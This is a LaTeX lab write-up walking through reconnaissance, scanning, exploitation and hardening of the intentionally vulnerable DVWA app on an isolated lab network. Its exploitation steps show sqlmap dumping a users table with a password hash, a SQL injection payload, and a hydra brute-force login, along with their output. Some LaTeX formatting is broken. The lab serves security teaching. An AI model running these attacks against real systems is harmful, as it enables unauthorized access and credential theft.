gobuster dir -u http://192.168.56.101 -w /usr/share/wordlists/dirb/common.txt


\section*{Lab: Professional Threat Modeling Walkthrough (DVWA)}
This lab provides a comprehensive, step-by-step threat modeling and exploitation walkthrough using the Damn Vulnerable Web Application (DVWA)\cite{owasp}. The approach follows industry best practices\cite{shostack2014,uceda2015} and demonstrates both offensive and defensive techniques, with technical explanations and real command outputs.

\subsection*{Lab Setup and Architecture}
\begin{itemize}
    \item \textbf{Target:} DVWA running on Ubuntu 22.04 (IP: 192.168.56.101)
    \item \textbf{Attacker:} Kali Linux VM with nmap, gobuster, sqlmap, nikto, hydra
    \item \textbf{Network:} Isolated VirtualBox NAT network
\end{itemize}

\begin{figure}[H]
    \centering
    
\includegraphics[width=0.7\textwidth]{images/system-context}
    \caption{Lab Network and System Context Diagram}
\end{figure}

\subsection*{Step 1: Reconnaissance and Enumeration}
	extbf{Definition:} Reconnaissance is the process of gathering information about the target system, including open ports, services, and technologies\cite{nist800154}.

	extbf{Discover open ports and services:}
\begin{verbatim}
$ nmap -sV -T4 -p- 192.168.56.101
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
3306/tcp open  mysql   MySQL 5.7.33-0ubuntu0.18.04.1
MAC Address: 08:00:27:12:34:56 (Oracle VirtualBox)
\end{verbatim}

	extbf{Identify web technologies:}
\begin{verbatim}
$ whatweb http://192.168.56.101
http://192.168.56.101 [200 OK] Apache[2.4.41], PHP[7.4.3], MySQL[5.7.33], Ubuntu[22.04]
\end{verbatim}

\subsection*{Step 2: Directory and File Enumeration}
	extbf{Definition:} Directory enumeration identifies hidden files and directories that may expose sensitive functionality\cite{owasp}.
\begin{verbatim}
$ gobuster dir -u http://192.168.56.101 -w /usr/share/wordlists/dirb/common.txt
/login.php (Status: 200)
/config (Status: 301)
/uploads (Status: 301)
\end{verbatim}

\subsection*{Step 3: Vulnerability Scanning}
	extbf{Definition:} Vulnerability scanning is the automated process of identifying known security weaknesses\cite{nist800154}.

	extbf{Scan for SQL injection:}
\begin{verbatim}
$ sqlmap -u "http://192.168.56.101/login.php" --forms --batch
[INFO] testing connection to the target URL
[INFO] testing if the target URL is stable
[INFO] testing for SQL injection on POST parameter 'username'
[PAYLOAD] username=admin' AND 1=1-- &password=pass
[RESULT] The parameter 'username' appears to be injectable!
\end{verbatim}

	extbf{Scan for XSS and other web vulnerabilities:}
\begin{verbatim}
$ nikto -h http://192.168.56.101
- Nikto v2.1.6
- Target IP:          192.168.56.101
- Target Hostname:    192.168.56.101
- Server: Apache/2.4.41 (Ubuntu)
[+] Cookie PHPSESSID created without the HttpOnly flag
[+] X-Frame-Options header is not present.
[+] The X-XSS-Protection header is not defined.
\end{verbatim}

\subsection*{Step 4: Exploitation}
	extbf{Definition:} Exploitation is the act of leveraging vulnerabilities to gain unauthorized access or extract data\cite{shostack2014}.

	extbf{Exploit SQL injection:}
\begin{verbatim}
$ sqlmap -u "http://192.168.56.101/login.php" --dump
[INFO] fetching database users
Database: dvwa
Table: users
admin | 5f4dcc3b5aa765d61d8327deb882cf99 | admin@dvwa.local
\end{verbatim}

	extbf{Brute-force login:}
\begin{verbatim}

$ hydra -l admin -P /usr/share/wordlists/rockyou.txt 192.168.56.101 http-post-form \
"/login.php:username=^USER^&password=^PASS^:F=incorrect"
[80][http-post-form] host: 192.168.56.101   login: admin   password: password
\end{verbatim}

\subsection*{Step 5: Mitigation and Hardening}
	extbf{Definition:} Mitigation involves applying security controls to reduce risk and prevent exploitation\cite{uceda2015}.
\begin{itemize}
    \item Patch and update all software components
    \item Enforce strong authentication (MFA, password policy)
    \item Use parameterized queries and ORM to prevent SQL injection
    \item Configure firewalls (e.g., ufw, iptables)
    \item Monitor logs for suspicious activity
    \item Set secure cookie flags (HttpOnly, Secure)
\end{itemize}

\subsection*{Lab Summary}
This lab demonstrates the end-to-end process of threat modeling, vulnerability discovery, exploitation, and mitigation in a controlled environment. The approach aligns with best practices from OWASP, NIST, and leading security literature\cite{owasp,shostack2014,uceda2015,nist800154}.
